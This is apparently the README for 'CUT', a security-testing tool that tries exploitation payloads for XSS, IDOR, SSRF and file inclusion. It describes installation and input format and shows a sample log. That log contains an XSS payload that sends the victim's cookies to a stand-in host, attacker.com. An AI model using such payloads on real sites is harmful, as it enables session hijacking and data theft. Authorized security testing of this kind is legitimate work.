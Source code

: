# **Comprehensive Vulnerability Testing (CUT)**

## **Overview**

CUT (Comprehensive Vulnerability Testing) is an advanced tool designed to identify and escalate various security vulnerabilities in an application. It combines detection and exploitation techniques to provide a thorough security assessment.

## **Features**

- **Detection**:
  - Reads detected vulnerabilities from a file.
- **Automated Exploitation**:
  - Uses specific payloads to test different vulnerabilities.
  - Dynamic scanning of endpoints.
- **Vulnerability Tests**:
  - Insecure Direct Object References (IDOR)
  - Cross-Site Scripting (XSS)
  - Server-Side Request Forgery (SSRF)
  - Local/Remote File Inclusion (LFI/RFI)
  - Privilege Escalation
- **XSS Escalation Techniques**:
  - Session Hijacking
  - Phishing
  - Keylogging
  - Stealing Sensitive Data
  - Defacement
- **Contextual Risk Assessment**:
  - Evaluates business and user impact.
- **Logging and Reporting**:
  - Logs each step and generates a comprehensive report.

## **Installation**

To install the required dependencies, run:

\`\`\`bash
pip install requests
\`\`\`

## **Usage**

1. **Prepare an Input File**: Create a text file with detected vulnerabilities. Each line should follow the format: `endpoint,param,vuln_type`.
2. **Run the Program**: Execute the script with the file path to the input file.

\`\`\`bash
python cut.py
\`\`\`

## **Example Input File**

\`\`\`
https://example.com/search,query,XSS
https://example.com/login,username,SQL Injection
https://example.com/profile,user_id,IDOR
\`\`\`

## **Output**

The program logs all actions and results to a file named `combined_vulnerability_report.log`.

## **Example Output**

\`\`\`log
2025-01-02 07:38:12 - Loaded 3 vulnerabilities
2025-01-02 07:38:12 - Escalating XSS vulnerability at https://example.com/search with parameter query
2025-01-02 07:38:13 - Testing XSS with payload: <script>alert('XSS')</script>
2025-01-02 07:38:13 - Potential XSS vulnerability detected with payload '<script>alert('XSS')</script>'
2025-01-02 07:38:14 - Testing XSS escalation with payload: <script>document.location='http://attacker.com?cookie='+document.cookie</script>
2025-01-02 07:38:14 - Response Status Code: 200
...
2025-01-02 07:38:20 - Report saved to /path/to/output/combined_vulnerability_report.log
\`\`\`

## **Contributing**

If you would like to contribute to this project, please fork the repository and submit a pull request with your changes.

## **License**

This project is licensed under the MIT License.

## **Notes**

- Ensure you have authorization to test the application for vulnerabilities.
- This program is designed for educational and ethical purposes only.
